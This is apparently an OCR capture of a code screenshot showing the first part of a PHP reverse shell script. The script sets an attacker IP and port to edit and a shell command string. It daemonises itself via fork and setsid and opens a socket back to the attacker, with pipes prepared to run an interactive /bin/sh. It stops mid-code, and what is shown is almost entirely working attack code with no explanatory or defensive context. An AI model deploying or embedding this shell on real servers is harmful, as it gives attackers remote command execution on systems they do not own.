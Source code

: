 ```
$ip = '192.168.246.129';  // CHANGE THIS
$port = 1234;       // CHANGE THIS
$chunk_size = 1400;
$write_a = null;
$error_a = null;
$shell = 'uname -a; w; id; /bin/sh -i';
$daemon = 0;
$debug = 0;

//
// Daemonise ourself if possible to avoid zombies later
//

// pcntl_fork is hardly ever available, but will allow us to daemonise
// our php process and avoid zombies.  Worth a try...
if (function_exists('pcntl_fork')) {
	// Fork and have the parent process exit
	$pid = pcntl_fork();
	
	if ($pid == -1) {
		printit("ERROR: Can't fork");
		exit(1);
	}
	
	if ($pid) {
		exit(0);  // Parent exits
	}

	// Make the current process a session leader
	// Will only succeed if we forked
	if (posix_setsid() == -1) {
		printit("Error: Can't setsid()");
		exit(1);
	}

	$daemon = 1;
} else {
	printit("WARNING: Failed to daemonise.  This is quite common and not fatal.");
}

// Change to a safe directory
chdir("/");

// Remove any umask we inherited
umask(0);

//
// Do the reverse shell...
//

// Open reverse connection
$sock = fsockopen($ip, $port, $errno, $errstr, 30);
if (!$sock) {
	printit("$errstr ($errno)");
	exit(1);
}

// Spawn shell process
$descriptorspec = array(
   0 =&gt; array("pipe", "r"),  // stdin is a pipe that the child will read from
   1 =&gt; array("pipe", "w"),  // stdout is a pipe that the child will write to
   2 =&gt; array("pipe", "w")   // stderr is a pipe that the child will write to
);
```